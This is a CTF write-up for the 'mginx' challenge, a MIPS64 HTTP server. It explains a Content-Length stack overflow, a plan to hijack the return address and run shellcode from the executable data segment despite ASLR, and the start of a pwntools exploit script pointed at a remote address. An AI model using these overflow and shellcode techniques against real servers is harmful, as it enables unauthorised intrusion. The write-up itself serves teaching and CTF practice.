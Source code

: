 ## mginx

I find this chllenge can getshell after game, but I release hint2 says can't getshell, I am so sorry about it.

mips64 big endian，not stripped

The logic of the program is not very complicated, it is a simple http server,  a stack overflow in the following code:

![t3D0Df.png](https://s1.ax1x.com/2020/05/31/t3D0Df.png)

This sStack4280 variable is the length of our `Content-Length` plus `body length`. If we set `Content-Length` to 4095 and fill in multiple bytes in the body, then sStack4280 will exceed 0x1000 and directly cause stack overflow, here is a poc: 

```python
req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"A")
	# pause()
	p.send(req)
```

With this stack overflow, we can hijack the return address of the main function, the program has no PIE, and the data segment can be executed, but the remote environment has ASLR, so we have to bypass the ASLR first.

Since we can stack overflow, the first thing that i think is ROP, but this program doesn't have many gadgets that can be used, so ROP is not very good, let's look at the instructions end of main function

![t3yTIS.png](https://s1.ax1x.com/2020/05/31/t3yTIS.png)

we can control ra, s8 and gp，After many attempts, I finally chose to jump here:

![t3yoa8.png](https://s1.ax1x.com/2020/05/31/t3yoa8.png)

we can overwrite the s8 as the address of the data segment, so that we can read our shellcode into data segment, and use the stack overflow in the main function to overwrite the return address as the address of the shellcode :D. 

exp：

```python
#python exp.py REMOTE=124.156.129.96 DEBUG
from pwn import *
import sys

context.update(arch='mips',bits=64,endian="big")

def main(host,port=8888):
	global p
	if host:
		p = remote(host,port)
	else:
		# p = process(["qemu-mips64","-g","1234","./mginx"])
		p = process(["qemu-mips64","./mginx"])
		# gdb.attach(p)
		#
	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
```